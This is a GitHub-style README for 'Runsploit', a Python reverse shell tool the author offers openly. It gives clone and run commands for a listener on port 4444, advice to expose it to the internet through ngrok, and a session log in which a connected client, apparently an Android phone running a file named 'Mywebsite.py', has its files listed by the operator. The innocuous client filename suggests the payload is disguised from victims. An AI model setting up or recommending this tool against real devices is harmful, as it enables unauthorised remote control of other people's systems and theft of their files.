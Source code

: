 # Runsploit
Runsploit is tool reverse shell on python i build this tool for myself. You can modify my source code because my source code is open source and i keep develop this tool.

# Need Ngrok
You need use ngrok for this because ngrok is a cross-platform application that exposes local server ports to the Internet. Learn more <a href="https://ngrok.com/">here</a>.

# Install
**windows & linux**
```
git clone https://github.com/galihap76/runsploit.git
```

# Usage
**windows**
```
runsploit.py -p 4444
```
**linux**
```
python3 runsploit.py -p 4444
```

# Example
**runsploit.py (windows / server)**
```
C:\Users\galihap\runsploit>runsploit.py -p 4444

                                ,--.
                               {    }
                               K,   }
                              /  ~Y`
                         ,   /   /
                        {_'-K.__/
                          `/-.__L._
                          /  ' /`\_}
                         /  ' /
                 ____   /  ' /
          ,-'~~~~    ~~/  ' /_
        ,'             ``~~~  ',
       (                        Y
      {                         I
     {                           `,
     |                            )
     |            ,..__      __. Y
     |           Y ' / ^Y   J   )|
     \           |' /   |   |   ||
      \          L_/    . _ (_,.'(
       \,   ,      ^^""' / |      )
         \_  \          /,L]     /    RUNSPLOIT
           '-_~-,       ` `   ./`
              `'{_            )
                  ^^\..___,.--`


[+]=========RUNSPLOIT HAS BEEN RUNNING========[+]
[+] Listening as 0.0.0.0:4444 ...
[+] 127.0.0.1:18994 Connected!
[+] Current working directory: /storage/9016-4EF8/Source Code
[*] /storage/9016-4EF8/Source Code>>> ls
Medium-UI-Free-Version-3.0.zip
Mywebsite.py
client.py
ngrok-stable-linux-arm
reverse_shell
reverse_shell.zip
runsploit.py
server.py
source_code.rar
source_code_english.rar
[*] /storage/9016-4EF8/Source Code>>>
```

**Mywebsite.py (android / client)**

![Screenshot_2022-05-11-23-27-15-43](https://user-images.githubusercontent.com/83481679/167903711-de09f8a8-d322-4a71-ad84-7468b0868eb2.png)

# Note
I can't record in video on process do reverse shell maybe next time because i not have time for do this. This tool not for script kiddie i hope you already know about reverse shell, what is ngrok, programming language and last socket on python.
